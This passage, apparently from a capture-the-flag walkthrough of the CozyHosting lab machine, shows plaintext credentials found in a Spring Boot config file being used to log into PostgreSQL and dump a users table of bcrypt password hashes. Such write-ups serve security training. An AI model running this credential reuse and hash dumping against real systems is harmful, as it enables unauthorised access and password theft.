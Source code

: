 <figure><img src="../../../.gitbook/assets/cozyhosting_search_pass.png" alt=""><figcaption><p>Figure 12: Searching for the <code>password</code> word.</p></figcaption></figure>

We find plaintext credentials within the `application.properties` file, which is where the Spring Boot's actuators are configured.

### Database Enumeration

We can use the credentials found to connect and then enumerate the PostgreSQL DMBS.

```bash
# Connecting to the PostgreSQL server
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
Password for user postgres:
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.
# Listing databases
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)
# Connecting to the cozyhosting database
postgres=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
# Listing tables
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
# Dumping data from the users table
cozyhosting=# select * from users;
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
# Exiting database
cozyhosting=# \q
```